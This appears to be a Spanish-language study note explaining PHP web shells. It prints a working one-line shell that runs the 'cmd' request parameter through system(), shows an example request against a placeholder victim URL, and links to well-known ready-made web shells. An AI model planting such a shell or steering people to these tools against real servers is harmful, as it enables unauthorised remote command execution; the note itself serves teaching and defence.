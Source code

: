 Una web shell es un script escrito en un lenguaje soportado por un servidor web comprometido que ejecuta comandos a través del propio servidor. Suele ser un archivo que contiene código que ejecuta comandos y controla archivos.

Pueden ser escritas en diferentes lenguajes soportados por servidores web, como PHP, ASP, JSP o CGI.

---------------------
<h2>Ejemplo de Web Shell PHP</h2>
Veamos un ejemplo de una web shell en PHP para entender cómo funciona este proceso:

```php
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
```

La shell de arriba puede guardarse en un archivo con extensión php, como `shell.php`, y luego subida a un servidor por el atacante para explotar vulnerabilidades como Unrestricted File Upload, File Inclusion, Command Injection y otras.

Después de desplegar la webshell en el servidor puede ser accedida a través de la URL. Según el ejemplo de arriba, tendríamos que realizar una petición GET con el parámetro "cmd". Si la página fuera `http://victim.com/uploads/shell.php`:

`http://victim.com/uploads/shell.php?cmd=whoami`

Esto ejecutará el comando whoami en el servidor y devolverá el resultado a través del navegador.

---------------------
<h2>Web Shells Existentes Disponibles Online</h2>
El poder de los lenguajes soportados por los servidores web puede resultar en web shells con varias funcionalidades y evitar la detección a la vez. Veamos algunas de las más populares:

- [p0wny-shell](https://github.com/flozz/p0wny-shell): Una web shell de un solo archivo PHP minimalista que permite RCE.
  ![[Pasted image 20251017174237.png]]
- [b374k shell](https://github.com/b374k/b374k): Una web shell PHP más rica en funcionalidades con manejo de archivos y ejecución de comandos, entre otras funcionalidades.
  ![[Pasted image 20251017174417.png]]
- [c99 shell](https://www.r57shell.net/single.php?id=13): Una web shell robusta y bien conocida con funcionalidades extensas.
  ![[Pasted image 20251017174504.png]]

Si quieres encontrar más web shells: https://www.r57shell.net/index.php 

